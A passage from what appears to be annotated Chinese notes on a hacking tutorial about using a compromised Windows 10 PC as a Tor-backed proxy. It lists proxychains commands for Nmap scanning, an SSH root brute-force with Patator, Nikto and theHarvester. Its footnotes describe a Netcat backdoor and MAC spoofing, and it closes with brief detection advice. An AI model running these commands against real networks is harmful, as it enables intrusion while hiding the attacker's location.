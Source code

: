      

   - Proxy Nmap Scans

     `~$ proxychains nmap -p80,22,21,443,8080,8443 -sS -T5 192.168.1.1/24` [^9]

   - Proxy Curl Commands [^10]

     ```bash
     ~$ curl --proxy socks5://127.0.0.1:1337 -I 'http://192.168.1.225'
     ~$ proxychains curl http://192.168.1.225:8080
     ```

     

   - Proxy Patator Brute-Force Attacks [^11]

     `~$ proxychains patator ssh_login host=192.168.1.225 port=22 user=root password=FILE0 0=/tmp/simple_wordlist.txt -t 1`

   - Proxy theHarvester Scans [^12]

     `~$ proxychains theharvester -d nmap.org -l 200 -b bing,censys,yahoo`

   - Proxy Nikto Scans [^13]

     `~$ proxychains nikto -host 192.168.1.225 -port 8080 -nossl`

   -  Proxy Web Requests with Firefox [^14]

### How to Protect Yourself (Conclusion) [^15]

- Inspect Outgoing Traffic with Wireshark [^16]
- Create Strict Firewall Rules with [pfSense](https://www.pfsense.org/)
- Monitor Running Processes with Task Manager [^17]



[原文](https://null-byte.wonderhowto.com/how-to/hacking-windows-10-turn-compromised-windows-pcs-into-web-proxies-0197334/)

---

[^1]: 拥有对Windows 10计算机的特权访问权限的入侵者可以将其配置为充当Web代理，从而允许攻击者通过受感染的计算机定位网络上的设备和服务。探测和攻击都来自Windows 10计算机，因此很难检测到攻击者的实际位置。本指南中使用Tor代理，但是像[ngrok](https://ngrok.com/)和[Serveo](https://serveo.net/)这样的其他工具可能会起到替代作用，但是这些服务尚未经过测试，主要是因为Tor连接是加密和私有的
[^2]: 在本指南中，以`>`开头的代码块表示该命令应该在Windows 10系统上使用PowerShell执行（即Netcat后门）。以`〜$`开头的代码块表示执行Kali Linux命令
[^3]: SSH 服务器与大多数Windows 10版本中的SSH 客户端不同。如果已经安装了OpenSSH，则可以在没有管理员（root）权限的情况下执行以下大多数攻击。但是如果未安装OpenSSH，则需要管理员权限才能安装它
[^4]: 因为可以将给定服务的默认端口号更改为任意值，所以输出不是100％正确
[^5]: 使用`netstat`，可以识别使用给定端口的服务
[^6]: 在`ls`输出中，注意到没有 [torrc](https://2019.www.torproject.org/docs/faq.html.en#torrc) 配置文件，它其中包含Tor应如何配置的说明。而此时我们希望Tor创建一个新的洋葱服务地址，当使用`echo`和其他PowerShell文件创建命令创建torrc文件时，会发生一些恼人的[换行错误](https://stackoverflow.com/questions/9280591/avoid-newline-in-echo)。最终选择在远程服务器上托管所需的torrc文件，只需使用PowerShell下载即可
[^7]: 执行命令后等待 Netcat 终端读取“Bootstrapped 100％：Done”，这表明它已经正常启动，按键盘上的*Enter* 键返回交互式 Netcat shell
[^8]: Tor启动后，将创建一个名为“HS”的新目录。在此目录中可以找到包含洋葱地址的主机名文件
[^9]: 一旦创建SOCKS5代理，许多人可能会尝试通过Windows 10计算机执行Nmap扫描。但Nmap 对内置的[代理功能支持有限](https://security.stackexchange.com/questions/120708/nmap-through-proxy/120723#120723)。即使与代理链配合使用，也不会支持所有Nmap的扫描类型
[^10]: [Curl](https://linux.die.net/man/1/curl) 是一个功能强大的命令行工具，用于创建不同类型的Web请求，支持许多不同的协议和功能。它可用于枚举网络上设备上找到的Web服务器类型。与其他许多工具不同，curl具有内置的SOCKS5支持，可以使用`--proxy`选项调用
[^11]: Patator 是一个命令行强制执行工具。使用代理链，Patator可用于通过Windows 10计算机强制执行服务。虽然未经测试，但同样的语法可以与其他强力工具如 Hydra 和 Medusa 一起使用
[^12]: TheHarvester 是一个信息收集工具。它具有执行虚拟主机验证，DNS枚举，反向域搜索和IP查找以及进行 Shodan 查询的功能
[^13]: Nikto 是一个简单的Web服务器扫描程序，它可以检查网站并报告发现的漏洞
[^14]: 某些情况下，可以通过MAC和IP地址定义黑名单和白名单规则方法来安全的访问Web服务。例如，特定路由器将仅允许某些Windows 10计算机访问路由器的网关.。但是可以伪造Kali的MAC和IP地址来诱骗路由器让我们查看网关。同时也可以使用SSH代理来实现相同的目标
[^15]: 需要注意的是，这只表明攻击者可以使用受感染的计算机作为代理的一种方式。在本文的早期概念中，目标的路由器和Windows 10防火墙被修改为允许端口转发和远程访问。这也将允许攻击者从世界上任何地方访问SSH服务器。此外，可能并不总是需要管理员权限。例如，Tor可以在没有特殊权限的情况下下载和使用，并且可以配置为将请求转发到网络上的任何服务或端口，而无需使用SSH服务器或SOCKS5代理
[^16]: 如果攻击者正在使用Tor，则可以在 [ExoneraTor](https://metrics.torproject.org/exonerator.html)上找到Tor服务器。同样，在Wireshark捕获中可以轻松检测到 Netcat 流量
[^17]: 这种解决方案并不总是完全有效，因为进程名称可以更改或欺骗，但是懒惰的入侵者可能会将这些文件名称保留为默认名称（即 “tor.exe”）